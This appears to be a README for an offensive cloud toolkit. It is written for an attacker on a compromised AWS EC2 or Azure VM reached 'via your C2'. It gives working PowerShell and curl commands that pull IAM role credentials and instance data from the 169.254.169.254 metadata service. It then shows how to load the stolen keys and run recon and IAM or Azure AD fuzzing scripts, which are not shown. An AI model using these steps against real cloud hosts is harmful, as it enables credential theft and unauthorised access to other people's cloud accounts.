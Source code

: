 ## Prerequisites:

- Java + Maven Setup
- Java 11 or higher (java -version)
- Maven (mvn -v)

Install all packages:

```
pip install -r requirements.txt
```

## Step 1: Extract AWS Credentials from EC2 Instance
Run this in the compromised EC2 (PowerShell or cmd via your C2):

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Then get the actual credentials:

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

You’ll get output like:

```
{
  "AccessKeyId": "AKIA***********",
  "SecretAccessKey": "***************",
  "Token": "***************",
  "Expiration": "2025-06-14T14:00:00Z"
}
```

## Step 2: Use aws configure
Run this:

```
aws configure
```

It will ask:
```
AWS Access Key ID:     <your_access_key>
AWS Secret Access Key: <your_secret_key>
Default region name:   us-east-1 (or any region)
Default output format: json
```

Then run the script:

```
python3 aws_cloud_recon.py
python3 aws_iam_fuzzer.py
```


## Step 3: Extract Azure Credentials

On Azure VM

```
Invoke-WebRequest -Headers @{"Metadata"="true"} -Uri "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```
Or in Linux:

```
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```

## Export Credentials to Environment
In your terminal (replace placeholders with real values):

```

export AZURE_CLIENT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_TENANT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_CLIENT_SECRET="your-client-secret-here"
```

To make it permanent, add to ~/.bashrc or ~/.zshrc.

## Compile with Maven
Ensure you are in the same directory as your pom.xml, then run:

```
mvn clean compile
```

Then run:

```
mvn exec:java -Dexec.mainClass="AzureADFuzzer"
```
